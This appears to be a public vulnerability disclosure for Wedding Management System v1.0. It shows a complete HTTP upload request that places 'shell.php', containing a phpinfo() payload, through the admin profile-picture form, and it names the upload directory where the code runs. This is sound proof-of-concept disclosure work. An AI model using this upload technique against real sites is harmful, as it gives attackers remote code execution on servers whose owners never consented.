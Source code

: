 # Wedding Management System v1.0 by codeastr.com has arbitrary code execution (RCE)

vendor: https://codeastro.com/wedding-management-system-in-php-with-source-code/

Vulnerability url: http://ip/Wedding-Management/admin/users_profile.php

Loophole location：The editing function of "Liam moore" module in the background management system-- > there is an arbitrary file upload vulnerability (RCE) in the picture upload point of "users_profile.php" file.

Click "Edit My Account" to save

Request package for file upload：

```sql
POST /Wedding-Management/admin/users_profile.php HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.19/Wedding-Management/admin/users_profile.php
Cookie: PHPSESSID=0m2td1md252hlnr3nsbmc5ss99
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------270312135209
Content-Length: 1045

-----------------------------270312135209
Content-Disposition: form-data; name="profile_picture"; filename="shell.php"
Content-Type: application/octet-stream

JFJF
<?php phpinfo();?>
-----------------------------270312135209
Content-Disposition: form-data; name="firstname"

Liam
-----------------------------270312135209
Content-Disposition: form-data; name="lastname"

Moore
-----------------------------270312135209
Content-Disposition: form-data; name="email"

admin@mail.com
-----------------------------270312135209
Content-Disposition: form-data; name="username"

adminliam
-----------------------------270312135209
Content-Disposition: form-data; name="gender"

m
-----------------------------270312135209
Content-Disposition: form-data; name="address"

Grand Meadows
-----------------------------270312135209
Content-Disposition: form-data; name="designation"

0
-----------------------------270312135209
Content-Disposition: form-data; name="submit"


-----------------------------270312135209--
```

The files will be uploaded to this directory \admin\upload\users\

![image](https://user-images.githubusercontent.com/54017627/167981060-97d3fdf8-9236-4eff-9e7a-87cc837ec8a4.png)


We visited the directory of the file in the browser and found that the code had been executed

![image](https://user-images.githubusercontent.com/54017627/167981077-b13e8a1d-cf3b-4fe7-b0b4-19f24bd278ee.png)
